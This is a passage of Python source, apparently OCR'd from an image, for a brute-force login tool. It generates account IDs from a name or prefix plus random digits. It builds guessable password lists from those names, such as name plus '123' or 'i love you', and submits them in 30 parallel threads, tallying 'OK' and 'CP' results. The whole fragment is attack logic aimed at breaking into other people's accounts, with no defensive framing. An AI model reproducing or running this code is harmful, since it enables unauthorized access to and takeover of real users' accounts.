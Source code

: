                         clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;32m Random Testing Version ..... ')
                        print(f'\033[1;37m \x1b[38;5;126m Prosess started\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'bangladesh','i love you','@#@#@#','123890']
                                sat.submit(apix,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))

def gml():
                user=[]
                pcp=[]
                clear()
                pcp.append(f'y')
                print('\033[1;32m Name  example:  Shahin, Sabbir, Forhad ')
                code = input(' First name : ')
                print(' Name Example : Alam, hossen, hossain')
                codex = input(' Last name : ')
                try:
                        limit = int(input('\033[1;32m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(2,5))
                        user.append(nmp)
                with tred(max_workers=30) as sat:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;32m Random Testing Version ..... ')
                        print(f'\033[1;37m \x1b[38;5;126m Prosess started\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+codex+psx
                                passlist = [code,codex,code+codex,code+' '+codex,code+'123',code+'1234',code+'12345','@#@#@#','123890']
                                sat.submit(apix,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))



